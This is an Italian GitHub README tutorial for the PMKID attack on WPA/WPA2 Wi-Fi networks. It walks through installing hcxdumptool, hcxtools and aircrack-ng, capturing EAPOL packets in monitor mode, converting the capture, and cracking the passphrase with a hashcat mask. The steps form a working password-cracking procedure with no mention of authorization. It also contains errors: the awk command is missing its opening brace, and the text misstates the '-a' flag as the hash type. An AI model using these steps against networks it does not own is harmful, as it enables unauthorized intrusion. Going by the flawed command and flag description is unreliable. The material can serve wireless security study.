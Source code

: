 # PMKID ATTACK

Questo repository è di supporto all'articolo riguardo il PMKID ATTACK disponibile [qui](https://medium.com/@mariocuomo/pmkid-attack-parte-1-9ae5433ea85e).<br>
L'articolo tra ispirazione dal [post](https://hashcat.net/forum/thread-7717.html) pubblicato il 4 agosto 2018 sul forum di **hashcat** riguardo una vulnerabilità nel protocollo Wi-Fi Protected Access (WPA e WPA2).


#### SCENARIO
Un Client che non è in possesso della password di un Access Point cerca di riceve un messaggio contenente un **PMKID** - una stringa cifrata il cui unico parametro ignoto è il **PMK**.<br>
Il **PMK** è generato a partire dalla password in chiaro e altre varibili note al Client.<br>
Conoscendo il processo generativo del PMK dalla password e quello del PMKID a partre dal PMK, il Client cerca di costruire un **PMKID*** a partire da password note.


#### TOOL NECESSARI
- [hcxdumptool](https://github.com/ZerBea/hcxdumptool), uno strumento che come suggerisce la descrizione del repository github è in grado di 'acquisire pacchetti da dispositivi wlan e scoprire potenziali punti deboli all'interno delle proprie reti WiFi'.<br>
È necessario quindi possedere una scheda wireless che supporti la _monitor mode_.
- [hcxtools](https://github.com/ZerBea/hcxtools), uno strumento che come suggerisce la descrizione del repository github permette di 'converti i pacchetti dalle acquisizioni per rilevare i punti deboli all'interno delle proprie reti WiFi analizzando gli hash'
- [hashcat](https://hashcat.net/hashcat/), uno strumento che implementa diversi algoritmi di cifratura e utilizzato per il recupero password


## PASSO 1 - INSTALLARE I VARI TOOL
È necessario clonare i repositori hcxdumptool e hcxtools.
```Bash
git clone https://github.com/ZerBea/hcxdumptool.git
cd hcxdumptool
make && make install

git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
make && make install
```

## PASSO 2 - IMPOSTARE LA PROPRIA SCHEDA IN MODALITÀ MONITOR
Uno strumento per impostare la propria interfaccia wireless in modalità monitor è [Airmon-ng](https://aircrack-ng.org/doku.php?id=it:install_aircrack)
```Bash
wget http://download.aircrack-ng.org/aircrack-ng-1.0.tar.gz
tar -zxvf aircrack-ng-1.0.tar.gz
cd aircrack-ng-1.0
make
make install
```

Se x è il nome della propria interfaccia - scopribile tramite il comando ```ifconfig``` - lanciare il comando 
```Bash
airmon-ng start x
```
Da questo momento il nome della interfaccia wireless avrà la forma x**mon**.<br>
Per avere una conferma rilanciare il comando ```ifconfig```.



## PASSO 3 - CATTURARE PACCHETTI DI INTERESSE
A questo punto è necessario catturare i pacchetti di interesse.<br>
Il comando minimale è il seguente, dove il parametro **-o** indica il file di output sul quale si scriverà e il parametro **-i** indica la sorgente dalla quale si cattureranno i pacchetti.

```Bash
hcxdumptool -o pacchetti.pcapng -i xmon 
```

Un parametro di interesse da aggiungere è **enable_status**.<br>
Questo parametro permette di specificare a quali pacchetti siamo interessati:<br>

**1**: EAPOL<br>
**2**: PROBEREQUEST/PROBERESPONSE<br>
**4**: AUTHENTICATON<br>
**8**: ASSOCIATION<br>

Siamo interessati ai pacchetti EAPOL.

```Bash
hcxdumptool -o pacchetti.pcapng -i xmon --enable_status=1
```



## PASSO 4 - CONVERTIRE IL FILE OUTPUT DI HCXDUMPTOOL
Il file .pcapng deve ora essere convertito in un formato comprensibile ad hashcat.<br>
In accordo a quanto previsto per la versione 6.2.5 di hashcat costruiamo un file con estensione .hc22000.

```Bash
 hcxpcapngtool -o hash.hc22000 -E wordlist pacchetti.pcapng
 ```
 
 
## PASSO 5 - LANCIARE IL MECCANISMO DI BRUTEFORCE
Se si osserva il file appena creato esso segue la seguente forma:

**PROTOCOL** * **TYPE** * **PMKID/MIC** * **MACAP** * **MACCLIENT** * **ESSID** * **ANONCE** * **EAPOL** * **MESSAGEPAIR**

L'ESSID è espresso in esadecimale.<br>
Al solo titolo di esempio, si lanci il seguente script per decodificarli:

```Bash
awk -F "*" ' system("echo " $6 " | xxd -r -p; echo" ) }' hash.hc22000
```
 
Si hanno tutte le informazioni necessarie per iniziare la computazione del PMKID.<br>
Come si è visto nell'articolo è necessario iniziare da una password, generare il PMK e successivamente il PMKID*.<br>
Ma da quali password iniziare?<br>
Si può utilizzare una lista di password candidate o si può esprimere una **mask**.<br>
Una mask descrive la struttura della passoword: si immagini di avere una password composta da 8 cifre decimali.<br>
Il comando è il seguente

```Bash
hashcat -m 22000 hash.hc22000 -a 3 -w 4 ?d?d?d?d?d?d?d?d
```

Il parametro -a indica l'hash type e il parametro -w indica il profilo di workload.



et voilà, tocca solamente attendere!
